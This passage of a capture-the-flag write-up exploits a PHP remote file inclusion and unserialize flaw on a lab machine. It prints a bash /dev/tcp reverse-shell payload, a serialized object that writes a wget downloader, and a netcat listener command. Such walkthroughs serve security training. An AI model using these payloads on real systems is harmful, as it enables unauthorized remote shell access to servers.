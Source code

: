 After requesting the `http://MyIP/check.php`, my server gets a request, so it will be possible to request remote files.

Knowing that, I’ll prepare the code of a PHP reverse shell and share it on my http server:

minirevshell.txt

```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.9.151.70/1234 0>&1'");
?>
```

and then, I’ll prepare a file that will store the payload for the PHP Unserialize exploit

code.txt

```php
O:4:"file":2:{s:4:"file";s:8:"code.php";s:4:"data";s:60:"<?php system('wget http://10.9.151.70/minirevshell.php'); ?>";}
```

Now, I’ll request the code.txt file via URL on the target machine: `http://TargetIP/SecretFolder/?file=http://MyIP/code.txt`

This will create a new file called code.php in the target machine, and its content will be a PHP code that will request the file “minirevshell.php” shared in my local http server.

Then I’ll open that code.php, so the request will take place:

`http://TargetIP/SecretFolder/code.php`

<figure><img src="../../.gitbook/assets/stuxctf20.png" alt=""><figcaption></figcaption></figure>

After doing that, I can see that the file minirevshell.php has been requested from my http server, so I’ll open netcat to receive the revshell with the command `nc -lvnp 1234`

And open in the web-browser the file minirevshell.php

`http://TargetIP/SecretFolder/minirevshell.php`

<figure><img src="../../.gitbook/assets/stuxctf21.png" alt=""><figcaption></figcaption></figure>
